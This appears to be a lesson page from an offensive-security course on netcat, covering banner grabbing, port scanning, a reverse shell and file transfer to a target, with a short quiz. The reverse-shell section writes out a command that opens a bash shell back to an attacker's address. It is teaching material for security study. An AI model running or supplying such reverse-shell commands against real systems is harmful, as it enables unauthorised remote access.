

# Netcat: The Swiss Army Knife

**Netcat (nc)** is programmed to read and write data across network connections using TCP or UDP. It is so versatile that it's often called the "Swiss Army Knife" of networking.

As a hacker, you will use it for everything from banner grabbing to establishing full-blown reverse shells.

---

## 1. Banner Grabbing

The first step in service enumeration is seeing what a service says when you connect to it.

<TerminalWindow cmd="nc -nv 10.10.10.5 22" output="(UNKNOWN) [10.10.10.5] 22 (ssh) open
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
[!] Software version identified: OpenSSH 7.6p1" />

---

## 2. Port Scanning

While Nmap is better for large scans, Netcat is great for a quick check.
- `-z`: Zero-I/O mode (useful for scanning).
- `-w 1`: Timeout after 1 second.

<TerminalWindow cmd="nc -zv 10.10.10.5 20-25" output="10.10.10.5 21 (ftp) : Connection refused
10.10.10.5 22 (ssh) : open
10.10.10.5 23 (telnet) : Connection refused" />

---

## 3. Reverse Shell (The Real Power)

A **Reverse Shell** is when the target machine initiates a connection back to your machine. This is used to bypass firewalls, as most firewalls block incoming connections but allow outgoing ones.

### Step 1: Start a listener on your machine
<TerminalWindow cmd="nc -lvnp 4444" output="listening on [any] 4444 ..." />

### Step 2: Execute the shell on the target
`nc [YOUR_IP] 4444 -e /bin/bash`

---

## 4. Simple File Transfer

Need to get a tool onto a target machine? Netcat can do it.

**On receiver (Target):** `nc -lp 1234 > script.sh`  
**On sender (Hacker):** `nc -w 3 [TARGET_IP] 1234 < script.sh`

---

## Knowledge Check

<Quiz 
  question="What does the -l flag do in a netcat command?"
  options={["Log the output", "List all ports", "Start in Listen mode", "Launch a shell"]}
  answer="Start in Listen mode"
  explanation="The -l flag tells netcat to act as a server and wait for an incoming connection."
/>
